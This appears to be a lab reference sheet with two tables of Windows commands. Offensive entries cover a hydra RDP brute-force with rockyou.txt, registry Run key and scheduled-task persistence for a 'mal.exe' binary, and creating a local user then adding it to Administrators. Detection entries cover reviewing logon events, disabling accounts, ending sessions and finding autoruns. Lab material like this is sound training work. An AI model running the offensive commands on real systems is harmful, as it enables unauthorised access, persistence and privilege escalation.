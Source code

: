 - Commands used in the lab:

## **Windows --- Offensive / Attack**

  ----------------------------------------------------------------------------------------
  **Command**                                                   **Purpose**
  ------------------------------------------------------------- --------------------------
  hydra -l administrator -P rockyou.txt rdp://\<windows_ip\>    RDP brute-force attack
                                                                from Kali.

  reg add                                                       Create a Registry Run key
  \"HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\"   to achieve persistent
  /v MaliciousSvc /t REG_SZ /d \"C:\\mal\\mal.exe\" /f          on-boot execution.

  schtasks /create /sc onlogon /tn \"MalSvc\" /tr               Create a scheduled task
  \"C:\\mal\\mal.exe\"                                          that runs at user logon
                                                                (persistence).

  net user new_user P@ssw0rd /add                               Create a local user
                                                                account (example for
                                                                escalation/persistence).

  net localgroup Administrators new_user /add                   Add a local user to the
                                                                Administrators group
                                                                (privilege escalation).
  ----------------------------------------------------------------------------------------

## **Windows --- Detection & Response**

  ---------------------------------------------------------------------------
  **Command / Action**                                 **Purpose**
  ---------------------------------------------------- ----------------------
  Get-WinEvent -FilterHashtable                        Export successful
  \@{LogName=\'Security\'; Id=4624} \| Where-Object {  logon events (ID 4624)
  \$\_.Message -match \$ip } \| Select-Object          filtered by attacker
  TimeCreated,                                         IP to a file for
  \@{Name=\'Message\';Expression={\$\_.Message}} \|    analysis.
  Out-File C:\\lab_logs\\4624_from_attacker.txt -Force 

  net user \<username\> /active:no                     Disable a suspicious
                                                       or compromised local
                                                       account.

  quser                                                List current
                                                       interactive sessions
                                                       on the host.

  logoff \<ID\>                                        Terminate a specific
                                                       interactive session by
                                                       session ID.

  (Autoruns GUI)                                       Enumerate Windows
                                                       startup locations and
                                                       entries to find
                                                       persistence
                                                       mechanisms.
